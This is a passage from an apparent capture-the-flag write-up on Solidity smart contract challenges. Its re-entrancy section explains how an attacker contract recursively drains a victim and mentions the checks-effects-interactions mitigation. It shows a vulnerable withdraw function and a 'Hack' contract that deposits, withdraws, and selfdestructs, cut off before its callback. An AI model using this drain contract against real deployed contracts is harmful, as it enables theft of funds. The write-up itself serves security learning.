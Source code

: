 Upon deployment the challenge is solved.

### Key takeaway

Consider different use cases when analyzing a contract: caller could be either
an externally owned account or a contract account.

## Re-entrancy

### Reference

**Reentrancy attacks** occur when a smart contract function temporarily gives
up control flow of the transaction by making an external call to a contract
that is sometimes written by unknown or possibly hostile actors. This permits
the latter contract to make a recursive call back to the primary smart contract
function to drain its funds.

Reentrancy control flow:

1. The bad actor makes a call on the vulnerable contract, "X," to transfer
   funds to the malicious contract, "Y."
2. Contract X determines whether the attacker has the necessary funds, then
   proceeds to transfer the funds to contract Y.
3. Once contract Y receives the funds, it executes a callback function which
   calls back into contract X before the balance is updated.
4. This recursive process continues until all funds have been exhausted and
   transferred.

![Reentrancy Control Flow](https://assets-global.website-files.com/5f973c97cf5aea614f93a26c/6334ca134e5783724ab18c60_62lPIdNOqP6IPPzwu0Sgl5QNDy7pT6JcDLDPfeP1gukEs5-f1tQnfV3nfQKhZFThRsu1q1CYoGFLNEY3GrvVYDmLCYbfv5F1x7_zP2GDjNJJuQtlahfCSjRuIe77ECprqIB_tcitYQnCPA8tnOqY_MuJhuFJu5qJxYM3cVVB5feCYSojXr7JC20Gdw.png)

Common mitigation is usage of CEI pattern: `checks → effects → interactions`.  
Also third-pary libraries which provide helper modifiers.

### Vulnerability

```solidity
    ...
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result, ) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }
    ,,,
```

### Solution

```solidity
contract Hack {
    Reentrance private target;

    constructor(address _target) public {
        target = Reentrance(payable(_target));
    }

    function attack() external payable {
        target.donate{value: 1e18}(address(this));
        target.withdraw(1e18);

        require(address(target).balance == 0, "Target balance == 0");
        selfdestruct(payable(msg.sender));
```